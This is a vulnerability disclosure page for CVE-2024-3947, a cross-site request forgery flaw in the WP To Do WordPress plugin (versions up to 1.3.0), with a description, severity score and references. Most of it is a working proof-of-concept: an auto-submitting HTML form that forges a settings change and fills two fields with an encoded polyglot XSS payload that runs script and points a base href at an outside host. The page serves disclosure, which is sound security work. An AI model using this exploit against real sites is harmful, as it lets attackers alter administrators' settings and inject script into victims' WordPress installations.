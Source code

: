```yaml
---
layout: page
title: CVE-2024-3947
subtitle: WP To Do <= 1.3.0 - Cross-Site Request Forgery via wptodo_settings
---
```

## Description
The WP To Do plugin for WordPress is vulnerable to Cross-Site Request Forgery in all versions up to, and including, 1.3.0. This is due to missing or incorrect nonce validation on the wptodo_settings() function. This makes it possible for unauthenticated attackers to modify the plugin's settings via a forged request granted they can trick a site administrator into performing an action such as clicking on a link.

## Severity
 4.3 (Medium) - [CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N)

## Affected Version
    <= 1.3.0

## PoC :
```
<html>
  <!-- Made by eneriiiii<3 / https://x.com/aaillesim -->
  <body>
    <form action="http://[ASSETS]/wp-admin/admin.php?page=wptodo_settings" method="POST">
      <input type="hidden" name="subject" value="JavaScript&#58;&#47;&#47;&#37;0A&#47;&#42;&#63;&apos;&#47;&#42;&#92;&#92;&apos;&#47;&#42;&quot;&#47;&#42;&#92;&#92;&quot;&#47;&#42;&#96;&#47;&#42;&#92;&#92;&#96;&#47;&#42;&amp;apos&#59;&#41;&#47;&#42;&lt;&#33;&#45;&#45;&gt;&lt;&#47;Title&#47;&lt;&#47;Style&#47;&lt;&#47;Script&#47;&lt;&#47;textArea&#47;&lt;&#47;iFrame&#47;&lt;&#47;noScript&gt;&#92;&#92;74k&lt;K&#47;contentEditable&#47;autoFocus&#47;OnFocus&#61;&#47;&#42;&#36;&#123;&#47;&#42;&#47;&#59;&#123;&#47;&#42;&#42;&#47;&#40;confirm&#41;&#40;1&#43;2&#43;3&#43;4&#43;5&#43;6&#43;7&#43;8&#43;9&#43;10&#43;11&#43;12&#43;13&#43;14&#43;15&#43;16&#43;17&#43;18&#43;19&#43;20&#43;45&#43;500&#43;1000&#45;400&#45;20&#43;2&#41;&#125;&#47;&#47;&gt;&lt;Base&#47;Href&#61;&#47;&#47;ener1&#45;s3c&#46;github&#46;io&#92;&#92;76&#45;&#45;&gt;" />
      <input type="hidden" name="body" value="JavaScript&#58;&#47;&#47;&#37;0A&#47;&#42;&#63;&apos;&#47;&#42;&#92;&#92;&apos;&#47;&#42;&quot;&#47;&#42;&#92;&#92;&quot;&#47;&#42;&#96;&#47;&#42;&#92;&#92;&#96;&#47;&#42;&amp;apos&#59;&#41;&#47;&#42;&lt;&#33;&#45;&#45;&gt;&lt;&#47;Title&#47;&lt;&#47;Style&#47;&lt;&#47;Script&#47;&lt;&#47;textArea&#47;&lt;&#47;iFrame&#47;&lt;&#47;noScript&gt;&#92;&#92;74k&lt;K&#47;contentEditable&#47;autoFocus&#47;OnFocus&#61;&#47;&#42;&#36;&#123;&#47;&#42;&#47;&#59;&#123;&#47;&#42;&#42;&#47;&#40;confirm&#41;&#40;1&#43;2&#43;3&#43;4&#43;5&#43;6&#43;7&#43;8&#43;9&#43;10&#43;11&#43;12&#43;13&#43;14&#43;15&#43;16&#43;17&#43;18&#43;19&#43;20&#43;45&#43;500&#43;1000&#45;400&#45;20&#43;2&#41;&#125;&#47;&#47;&gt;&lt;Base&#47;Href&#61;&#47;&#47;ener1&#45;s3c&#46;github&#46;io&#92;&#92;76&#45;&#45;&gt;" />
      <input type="hidden" name="submit" value="Submit&#32;Query" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Reference
- https://plugins.trac.wordpress.org/browser/wp-todo/trunk/inc/Base/Model.php#L304
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/wp-todo/wp-to-do-130-cross-site-request-forgery-via-wptodo-settings






